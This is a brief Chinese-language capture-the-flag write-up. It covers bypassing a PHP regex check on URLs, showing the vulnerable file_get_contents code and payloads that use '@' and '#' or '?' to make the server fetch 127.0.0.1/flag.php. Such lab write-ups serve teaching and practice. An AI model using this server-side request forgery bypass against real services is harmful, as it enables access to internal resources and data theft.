

# 知识点：
@ #  ?用法
# 思路：
正则表达式意思以 http://ctf. 开头 以show结尾 不限大小写
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```
payload
```
url=http://ctf.@127.0.0.1/flag.php#show
# url=http://ctf.@127.0.0.1/flag.php?show
```

